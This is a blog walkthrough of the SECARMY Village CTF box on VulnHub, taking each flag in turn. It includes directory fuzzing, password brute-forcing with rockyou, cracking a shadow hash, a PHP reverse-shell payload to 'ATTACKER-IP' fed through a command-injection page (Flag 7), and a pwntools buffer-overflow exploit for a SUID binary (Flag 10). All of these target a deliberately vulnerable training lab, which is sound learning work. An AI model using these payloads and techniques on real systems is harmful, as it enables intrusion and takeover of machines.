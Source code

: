 ```yaml
---
date: 2020-11-05 19:47:51
layout: post
title: "SECARMY CTF OSCP box"
description: "Writeup of the SECARMY CTF OSCP giveaway box"
image: /assets/img/secarmy-village-0.png
optimized_image: /assets/img/secarmy-village-0.png
category: blog
tags:
  - ctf
  - reversing
  - pwn
  - privilege_escalation

author: trollzorftw
---
```


### Context
This is a writeup for SECARMY's CTF OSCP box. The contest has ended, but you can find the VM on Vulnhub: [Download Page](https://www.vulnhub.com/entry/secarmy-village-grayhat-conference,585/)


### Flag 1
```bash
curl http://192.168.100.33
```
This gives us the following information: "You are required to find our hidden directory and make your way into the machine."

So naturally I throw a dirbust with common.txt wordlist at it:
```bash
ffuf -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://192.168.100.33/FUZZ

anon                    [Status: 301, Size: 315, Words: 20, Lines: 10]

curl http://192.168.100.33/anon/
```

Giving us the credentials for uno user:
```html
<font color="white">uno:luc10r4m0n</font>
```

### Flag 2
We read readme.txt and we get: 
"You surely can guess the username , the password will be: 4b3l4rd0fru705"

We try escalation to ``dos`` with password ``4b3l4rd0fru705`` and we get access


After reading readme.txt we run the following command:


```bash
cd ./files && grep -r a8211ac1853a1235d48829414626512a

file4444.txt:a8211ac1853a1235d48829414626512a
```

Opening file4444.txt tells us to: Look inside file3131.txt

file3131.txt gives us a base64 encoded text which decoded gives us a zip file to get flag and the next todo instructions:

```bash
echo "UEsDBBQDAAAAADOiO1EAAAAAAAAAAAAAAAALAAAAY2hhbGxlbmdlMi9QSwMEFAMAAAgAFZI2Udrg
tPY+AAAAQQAAABQAAABjaGFsbGVuZ2UyL2ZsYWcyLnR4dHPOz0svSiwpzUksyczPK1bk4vJILUpV
L1aozC8tUihOTc7PS1FIy0lMB7LTc1PzSqzAPKNqMyOTRCPDWi4AUEsDBBQDAAAIADOiO1Eoztrt
dAAAAIEAAAATAAAAY2hhbGxlbmdlMi90b2RvLnR4dA3KOQ7CMBQFwJ5T/I4u8hrbdCk4AUjUXp4x
IsLIS8HtSTPVbPsodT4LvUanUYff6bHd7lcKcyzLQgUN506/Ohv1+cUhYsM47hufC0WL1WdIG4WH
80xYiZiDAg8mcpZNciu0itLBCJMYtOY6eKG8SjzzcPoDUEsBAj8DFAMAAAAAM6I7UQAAAAAAAAAA
AAAAAAsAJAAAAAAAAAAQgO1BAAAAAGNoYWxsZW5nZTIvCgAgAAAAAAABABgAgMoyJN2U1gGA6WpN
3pDWAYDKMiTdlNYBUEsBAj8DFAMAAAgAFZI2UdrgtPY+AAAAQQAAABQAJAAAAAAAAAAggKSBKQAA
AGNoYWxsZW5nZTIvZmxhZzIudHh0CgAgAAAAAAABABgAAOXQa96Q1gEA5dBr3pDWAQDl0GvekNYB
UEsBAj8DFAMAAAgAM6I7USjO2u10AAAAgQAAABMAJAAAAAAAAAAggKSBmQAAAGNoYWxsZW5nZTIv
dG9kby50eHQKACAAAAAAAAEAGACAyjIk3ZTWAYDKMiTdlNYBgMoyJN2U1gFQSwUGAAAAAAMAAwAo
AQAAPgEAAAAA" | base64 -d > flag2.zip

unzip flag2.zip && cat ./challenge2/flag2.txt
```


### Flag 3
We obtain a super secret token from the previous archive and use it on 1337 port:

```bash
echo "c8e6afe38c2ae9a0283ecfb4e1b7c10f7d96e54c39e727d0e5515ba24a4d1f1b" | nc 192.168.100.33 1337
```

Which gives us:
```
 Welcome to SVOS Password Recovery Facility!
 Enter the super secret token to proceed: 
 Here's your login credentials for the third user ``tres:r4f43l71n4j3r0``
```

### Flag 4
We get a binary which we need to reverse.

Using gdb-peda as our reverse tool, we run the binary and close it (Ctrl+C) when it prompts us to enter the key. 

Because I was unable to breakpoint anywhere in the main function, I tried to find ``keywords`` that might be in the binary.

The command ``find 'credentials'`` in gdb-peda shell worked and I got:

```bash
mapped : 0x7ffff7ffb09b ("credentials for the fourth user cuatro:p3dr00l1v4r3z")
```

### Flag 5
The todo.txt tells us to go to ``/justanothergallery`` on the webserver

After analyzing a little bit we get a bunch of qr images in: http://192.168.100.33/justanothergallery/qr/


Downloading them all and decoding the qr codes with a simple python script gives us the next credentials and flag:
```python
from PIL import Image
from pyzbar.pyzbar import decode
import sys

imgs = []
for i in range(69):
	imgs.append('image-{}.png'.format(i))

decoded_text = ''

for img in imgs:
	data = str(decode(Image.open(img))[0]).split("data=b'")[1].split("',")[0]
	decoded_text += data + ' '

print(decoded_text)
```

Result:
```
Hello and congrats for solving this challenge, 
we hope that you enjoyed the challenges we presented so far. 
It is time for us to increase the difficulty level and make 
the upcoming challenges more challenging than previous ones. 
Before you move to the next challenge, here are the credentials 
for the 5th user: cinco:ruy70m35 
head over to this user and get your 5th flag! goodluck for the upcoming challenges!
```

### Flag 6
Reading readme.txt points us to /cincos-secrets/ here we'll get a shadow.bak file but is not readable. Changing the permissions will give us a hash:

```bash
chmod 444 shadow.bak && cat shadow.bak | grep seis

seis:$6$MCzqLn0Z2KB3X3TM$opQCwc/JkRGzfOg/WTve8X/zSQLwVf98I.RisZCFo0mTQzpvc5zqm/0OJ5k.PITcFJBnsn7Nu2qeFP8zkBwx7.:18532:0:99999:7:::
```

Cracking the hash gives us the password ``Hogwarts`` , so the credentials are: ``seis:Hogwarts``


### Flag 7
The readme.txt file gives us the following path: "head over to ``/shellcmsdashboard`` webpage and find the credentials!".

I decided to bruteforce login with BurpSuite sniper attack with first 100  ``rockyou.txt`` passwords.

The only password with a different length than the other ones was ``qwerty``.

Logged in and got the message: ``head over to /aabbzzee.php`` 

This page will give us an easy command injection box where we will get a reverse shell from.

My payload: 
```bash
php -r '$sock=fsockopen("ATTACKER-IP",LISTEN-PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Netcat reverse shell on LISTEN-PORT on the attacker box:

```bash
nc -nvlp LISTEN-PORT
```
Getting ``www-data`` shell which gives us the seventh user password: ``6u1l3rm0p3n473``


### Flag 8
After playing around with the message, I discovered that xoring "x" with every number in message.txt will give us the password. I created a small python script to extract it:

```python
message = [11, 29, 27, 25, 10, 21, 1, 0, 23, 10, 17, 12, 13, 8]
extracted = ''
for key in message:
  extracted += chr(ord('x')^key)

print(extracted)

Output:secarmyxoritup
```


### Flag 9
We are presented with a pcapng file. Opening it up with wireshark we will get a tcp stream that has a LOT of text in which ``QWERTY`` is repeated several times. Also, there were some DNS queries to ``dcode.fr``.

We obtain a password from the long text: 
```mjwfr?2b6j3a5fx/c.```


Using keyboard shift cipher on [dcode.fr](https://www.dcode.fr/keyboard-shift-cipher) with settings: 

	-QWERTY(US) 

	-Shift Right + Clockwise rotation

Result:
```
nueve:355u4z4rc0
```


### Flag 10
We have a suid set binary, so we will need to exploit it to get root. Reversing it and creating a small python exploit script will do the trick:

```python
from pwn import *

io = process("./orangutan")
io.recvline("pwnme if u can ;)")
junk = b"A" * 24
payload = junk + p64(0xcafebabe)
io.sendline(payload)
io.interactive()
```